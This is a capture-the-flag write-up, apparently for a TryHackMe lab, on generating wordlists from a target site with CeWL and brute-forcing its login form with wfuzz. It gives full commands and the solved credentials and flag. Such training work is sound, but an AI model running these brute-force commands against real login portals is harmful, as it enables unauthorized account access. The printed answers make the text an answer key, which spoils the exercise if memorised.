




# Day 4: [Brute-forcing] Baby, it's CeWLd outside
Additional walktrough [video](https://www.youtube.com/watch?v=O2PJ_RzWp9g)


## Required Tools
1. **CeWL** (pronounced "cool")
   * Install CeWL if it's not available in your VM
     * ```sudo apt-get install cewl -y```
   * Features:
     * CeWL crafts wordlists specifically from the content of a targeted website.
     * CeWL can spider a website to a specified depth
     * Provides various options to fine-tune the wordlist
     * Includes functionalities such as username enumeration from author meta tags and email extraction
     * Integration with other tools, can be integrated seamlessly into automated workflows
     * Actively maintained and updated
   * Customise the Output for Specific Tasks
     * Specify spidering depth:
       * The ```-d``` option allows you to set how deep CeWL should spider. For example, to spider two links deep: ```cewl http://MACHINE_IP -d 2 -w output1.txt```
     * Set minimum and maximum word length: 
       *  Use the ```-m``` and ```-x``` options respectively. For instance, to get words between 5 and 10 characters: cewl ```http://MACHINE_IP -m 5 -x 10 -w output2.txt```
     * Handle authentication:
       *  If the target site is behind a login, you can use the ```-a``` flag for form-based authentication.
     * Custom extensions:
       *  The ```--with-numbers``` option will append numbers to words, and using ```--extension``` allows you to append custom extensions to each word, making it useful for directory or file brute-forcing.
     * Follow external links:
       *  By default, CeWL doesn't spider external sites, but using the ```--offsite``` option allows you to do so.

2. **wfuzz**
   * Tool designed for brute-forcing web applications
   * Used to find resources like servlets, scripts, etc, brute-force GET and POST parameters for checking different kinds of injections (SQL, XSS, LDAP), brute-force forms parameters (user/password) and fuzzing
   * ```wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"```
     * ```-z file,usernames.txt``` loads the usernames list.
     * ```-z file,passwords.txt``` uses the password list generated by CeWL.
     * ```--hs "Please enter the correct credentials"``` hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
     * ```-u``` specifies the target URL.
     * ```-d "username=FUZZ&password=FUZ2Z"``` provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.

3.  Can use ```ffuf``` and ```hydra``` as well

## Steps
1. Connect to the TryHackMe's VPN (or use AttackBox)

2. The objective is to get username & password for the website  and gain flag in the e-mail
   * 

3. Generate password list using CeWL
   * ```cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers```

4. Generate username list using CeWL
   * ```cewl -d 0 -m 5 -w usernames.txt http://MACHINE_IP/team.php --lowercase user@tryhackme$ cat usernames.txt```

5. Brute-force the login portal (```/login.php```) using wfuzz with list generated
   * ```wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"```

6. Wait wfuzz to finish the brute-force process
   * Username: isaias
   * Password: Happiness
   * 

7. Login to the website using credential we got

8. Open e-mails in the website to find the flag
   * THM{m3rrY4nt4rct1crAft$}
   * 

9. Submit username, password, and flag found 
   * 